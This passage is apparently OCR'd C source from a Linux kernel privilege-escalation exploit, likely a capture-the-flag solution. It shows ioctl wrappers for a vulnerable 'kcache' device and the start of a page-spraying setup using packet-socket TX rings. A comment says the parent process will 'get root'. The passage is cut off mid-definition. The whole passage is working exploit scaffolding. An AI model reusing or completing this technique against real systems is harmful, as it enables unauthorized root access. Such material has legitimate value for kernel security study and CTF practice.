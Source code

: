 ```c
        .sz = size,
        .buf = buf,
    };

    return ioctl(dev_fd, KCACHE_APPEND, &cmd);
}

int kcache_read(int index, unsigned int size, char *buf)
{
    struct kcache_cmd cmd = {
        .idx = index,
        .sz = size,
        .buf = buf,
    };

    return ioctl(dev_fd, KCACHE_READ, &cmd);
}

int kcache_free(int index)
{
    struct kcache_cmd cmd = {
        .idx = index,
    };

    return ioctl(dev_fd, KCACHE_FREE, &cmd);
}

/**
 * III -  pgv pages sprayer related 
 * not that we should create two process:
 * - the parent is the one to send cmd and get root
 * - the child creates an isolate userspace by calling unshare_setup(),
 *      receiving cmd from parent and operates it only
 */
#define PGV_PAGE_NUM 1000
#define PACKET_VERSION 10
#define PACKET_TX_RING 13

struct tpacket_req {
    unsigned int tp_block_size;
    unsigned int tp_block_nr;
    unsigned int tp_frame_size;
    unsigned int tp_frame_nr;
};

/* each allocation is (size * nr) bytes, aligned to PAGE_SIZE */
struct pgv_page_request {
    int idx;
    int cmd;
    unsigned int size;
    unsigned int nr;
};

/* operations type */
enum {
    CMD_ALLOC_PAGE,
    CMD_FREE_PAGE,
    CMD_EXIT,
};

/* tpacket version for setsockopt */
enum tpacket_versions {
    TPACKET_V1,
```